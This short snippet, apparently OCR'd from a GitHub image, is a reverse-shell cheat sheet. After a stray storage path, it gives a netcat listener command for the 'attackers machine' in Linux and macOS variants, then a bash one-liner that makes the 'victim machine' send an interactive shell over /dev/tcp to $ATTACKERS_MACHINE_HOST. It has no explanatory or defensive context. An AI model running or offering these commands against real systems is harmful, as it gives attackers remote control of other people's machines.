 # open listener port on attackers machine
* `nc -l -p 8080`
* macOS `nc -l localhost 8080`

# reverse connect from victim machine to attackers machine
`/bin/bash -c '/bin/bash -i >& /dev/tcp/$ATTACKERS_MACHINE_HOST/8080 0>&1'`
  
